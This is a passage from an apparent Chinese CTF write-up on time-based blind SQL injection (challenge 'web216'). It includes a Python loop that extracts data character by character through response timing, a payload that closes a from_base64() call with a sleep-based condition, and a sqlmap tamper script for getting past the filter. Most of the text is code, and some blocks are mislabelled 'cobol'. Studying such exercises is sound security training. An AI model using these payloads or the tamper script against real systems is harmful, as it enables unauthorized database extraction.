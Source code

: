 ```cobol
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid)
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 1.8:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)
 
 
```

## web216 tamper配合时间注入

```bash
      where id = from_base64($id);
```

显示是这个

我们只要闭合这个函数即可

```cobol
'MQ==') or if(ascii(substr((select database()),{0},1))>{1},sleep(2),0)-- +
```

这里闭合完函数就会变为

```cobol
where id = from_base64('MQ==') or if(ascii(substr((select database()),{0},1))>{1},sleep(2),0)-- +);
 
这样就实现了注入了
```

这里其实也算是一种waf吧 我们可以通过编写tamper绕过

```python
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    pass
def tamper(payload,**kwargs):
    payload = payload.replace("1'", "'MQ=='")
    return payload
```
